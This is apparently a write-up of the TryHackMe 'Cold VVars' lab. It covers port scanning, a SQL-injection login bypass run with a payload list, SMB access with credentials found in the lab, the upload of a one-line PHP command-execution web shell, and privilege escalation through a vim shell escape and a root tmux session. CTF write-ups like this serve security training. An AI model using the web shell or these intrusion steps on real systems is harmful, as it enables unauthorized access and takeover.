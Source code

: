 # Cold VVars
![image](https://user-images.githubusercontent.com/5285547/125272663-03ea6780-e304-11eb-9595-4169d0b8fdc3.png)
Room link: https://tryhackme.com/room/coldvvars

Target IP: 10.10.236.49

## Nmap 

```
PORT     STATE SERVICE
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
8080/tcp open  http-proxy
8082/tcp open  blackice-alerts
```

## Websites
### Port 8080

After a quick gobuster I found a new endpoint /dev, can use OPTIONS to bypass the 403,405
```
http://10.10.236.49:8080/dev/
http://10.10.236.49:8080/dev/note.txt
```
```
curl 10.10.236.49:8080/dev/note.txt 
```
Contents: 
```
Secure File Upload and Testing Functionality
```

### Port 8082

Home page
```
http://10.10.236.49:8082
```

### Brutefoce login (sqli) 
Scanning the URL with gobuster shows a login page (/login)  

[Bypass List: Sql Injection List](/tryhackme/coldVVars/sql_Injection_Bypass.txt)

Using burp's intruder we can capture the login and use the payloads from the list above. 

![image](https://user-images.githubusercontent.com/5285547/125278244-60e91c00-e30a-11eb-8c17-5f1195f81baf.png)

### SMB

Seeing we have SMB ports open lets enum the SMB protocal. 

```
smbclient -L \\10.10.236.49
```

![image](https://user-images.githubusercontent.com/5285547/125278478-b45b6a00-e30a-11eb-8dc2-12314c2701ae.png)

We have no READ/WRITE as a guest user. Lets try the creds from above for the SECURED samba share. 

Login SMB
```
smbclient \\\\10.10.236.49\\Secured -U ArthurMorgan
pass: DeadEye
```

Now we are logged in we can get a reverse shell, putting a file on the server. 

```
Enter WORKGROUP\ArthurMorgan's password: 
Try "help" to get a list of possible commands.
smb: \> put shell.php
putting file shell.php as \shell.php (0.2 kb/s) (average 0.2 kb/s)
smb: \> ls
  .                                   D        0  Mon Jul 12 12:18:30 2021
  ..                                  D        0  Thu Mar 11 12:52:29 2021
  note.txt                            A       45  Thu Mar 11 12:19:52 2021
  shell.php                           A       28  Mon Jul 12 12:18:30 2021

                7743660 blocks of size 1024. 4483140 blocks available
```

Knowing where note.txt was stored from earlier we can get the shell.php file at  
```
http://10.10.236.49/dev/shell.php?c=id
```
![image](https://user-images.githubusercontent.com/5285547/125279259-a528ec00-e30b-11eb-8c23-8fb65ac80de3.png)

You can use a php reverse shell here, I like to test with a simple php script first.  
shell.php
```
<?php system($_GET['c']);?>
```

## User (www-data > ArthurMorgan)

Using the php reverse shell to access the box we can find the flag in the users home directory.  
```
/home/ArthurMargan/user.txt
```

Switch to ArthurMorgan
```
su ArthorMorgan
DeadEye
```

## User 2 (marston)

Looking around the system and using linpeas shows an open port on localhost:4545

```
netstat -tulwn
```

This shows port 4545 open on local host. Lets try to connect to it and see what's on it. 

```
nc -lnvp 4545
```

Using option 4 we see VIM being used. Checking GTFObins shows us we can elevate to Marston with 

```
:!/bin/sh
```
To get a shell back as marston

From the linpeas earlier I noticed there was a tmux session running. Lets see whats running on their. 

```
tmux attach-session -t 0
```

Killing a few sessions you can see a root window still logged in, use that to get the last flag. 

![image](https://user-images.githubusercontent.com/5285547/125286984-4f0c7680-e314-11eb-93c3-2e812ac73779.png)

And the box is done, thanks to the creator for this one! 



